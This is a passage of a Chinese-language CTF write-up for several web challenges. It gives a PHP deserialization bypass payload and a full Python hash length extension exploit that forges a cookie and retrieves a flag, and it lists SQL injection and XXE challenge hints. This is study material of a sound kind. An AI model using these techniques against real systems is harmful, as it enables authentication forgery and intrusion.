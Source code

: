 源码下载：www-cat2.zip

网页提示“备份网站”，扫描发现网站根目录下存在“www.zip”，下载得到源码，是php变量覆盖和反序列化的绕过

O:4:"Name":2:{S:8:"username";s:5:"admin";S:8:"password";s:8:"password";}

<br/>

### 21.你有初恋吗

> 出题人：7h1n9
> 你变心了吗
> 地址:http://cxc.design/53a5734d6c99f89a

网页源码里有php源码，使用hash长度扩展攻击
```python
# python2
import hashpumpy
import urllib,urllib2

res = hashpumpy.hashpump('6a1ce5f4dc83320710006a786ac82c17', 'syclover', 'tail', 15)

print res[0]
print urllib.quote(res[1])


url='http://cxc.design/53a5734d6c99f89a/'
headers = { 'User-Agent':'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36' }
data='lover='+urllib.quote(res[1])
opener = urllib2.build_opener()
opener.addheaders.append(('Cookie','Heart='+res[0]))
req = urllib2.Request(url=url, data=data, headers=headers)
response = opener.open(req)
response = response.read()
print response
```
返回flag
```
Syc{D0_Y0u_l0v3_M3???}
```

<br/>

### 22.Finalsql

> 出题人：cl4y
> sql你太美:
> 地址:http://118.25.14.40:8104/

<br/>

### 23.你读懂潇文清的网站了吗

> 出题人：Ayrain
> xxe
> 地址:http://148.70.59.198:29173/
